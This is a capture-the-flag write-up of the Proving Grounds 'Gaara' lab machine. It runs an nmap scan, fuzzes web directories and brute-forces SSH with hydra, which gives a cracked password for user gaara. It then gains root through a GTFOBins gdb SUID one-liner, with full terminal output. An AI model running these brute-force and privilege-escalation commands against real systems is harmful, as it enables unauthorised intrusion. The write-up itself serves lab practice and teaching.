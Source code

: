 ```yaml
---
title: "Proving grounds Play: Gaara"
layout: post
date: 2023-09-29 02:00
categories: writeup
---
```


Proving grounds Play - Gaara CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
|   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
|_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp - open  http - Apache httpd 2.4.38 ((Debian))

![img](/assets/images/CTF/Proving_Grounds/Gaara/web.png)

### Directory Fuzzing

```text
http://192.168.198.142/Cryoserver

/Temari
/Kazekage
/iamGaara
```

The directory `/iamGaara` has a base58 encoded secret in one of the paragraph.

![img](/assets/images/CTF/Proving_Grounds/Gaara/secret.png)

### Decoding secret

![img](/assets/images/CTF/Proving_Grounds/Gaara/decode.png)

**SSH Credentials**: `gaara:ismyname`

Unfortunately the password didn't worked, so perform brtue forcing the password using hydra.

## SSH Brute Forcing

```sh
naveenj@hackerspace:|21:26|~/pg-play/Gaara$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt -t 40 ssh://192.168.198.142
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-28 21:26:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 40 tasks per 1 server, overall 40 tasks, 14344399 login tries (l:1/p:14344399), ~358610 tries per task
[DATA] attacking ssh://192.168.198.142:22/
[22][ssh] host: 192.168.198.142   login: gaara   password: iloveyou2 #password
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 18 final worker threads did not complete until end.
[ERROR] 18 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-28 21:27:41
```

SSH to the user gaara using the cracked password to obtain initial foothold.

## Privilege Escalation

Enumerate SUID binaries, incase if the SUID binaries enumerated are not clear if it's vulnerable or not use the below codes to automate.

- [GitHub - Anon-Exploiter/SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
- [GitHub - etc5had0w/suider/blob/main/suider.sh](https://github.com/etc5had0w/suider/blob/main/suider.sh)

### SUIDs

```sh
gaara@Gaara:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb    #vulnerable
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount
```

The SUID binary `gdb` is vulnerable for exploitation, search for exploit on GTFO bins.

### GTFO Bins Exploit

If the binary has the SUID bit set, it does not drop the elevated  privileges and may be abused to access the file system, escalate or  maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.
This example creates a local SUID copy of the binary and runs it to  maintain elevated privileges. To interact with an existing SUID binary  skip the first command and run the program using its original path. This requires that GDB is compiled with Python support.

```sh
sudo install -m =xs $(which gdb) .
./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

**Root Obtained**

```sh
gaara@Gaara:/tmp$ /usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
# whoami
root
```


Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).